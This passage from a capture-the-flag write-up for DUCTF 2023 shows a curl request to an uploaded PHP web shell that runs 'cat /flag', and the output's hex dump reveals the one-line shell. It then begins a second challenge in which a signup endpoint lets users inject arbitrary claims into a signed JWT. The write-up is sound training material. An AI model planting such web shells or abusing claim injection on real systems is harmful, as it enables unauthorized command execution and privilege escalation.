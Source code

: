 Get the flag

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ curl 'https://web-xxd-server-2680de9c070f.2023.ductf.dev/uploads/2921f5b9027cb601/shortest.php?0=cat+/flag'
00000000: 3c3f 3d60 245f 4745 545b 305d 603b       DUCTF{00000000__7368_656c_6c64_5f77_6974_685f_7878_6421__shelld_with_xxd!}
```

> DUCTF{00000000__7368_656c_6c64_5f77_6974_685f_7878_6421__shelld_with_xxd!}

## grades_grades_grades

#### Info

Sign up and see those grades :D! How well did you do this year's subject? Author: donfran

[https://web-grades-grades-grades-c4627b227382.2023.ductf.dev](https://web-grades-grades-grades-c4627b227382.2023.ductf.dev/)
#### Solve

The JWT secret key is not crackable

> auth.py

![](attachment/0f9413fcfd11b80700e50aa5021d14b0.png)

In the singup endpoint, user can control what key and values to be added to server signed JWT token upon signing up

> route.py

![](attachment/cbfe3978f7803828a2e3f2313e6608c9.png)
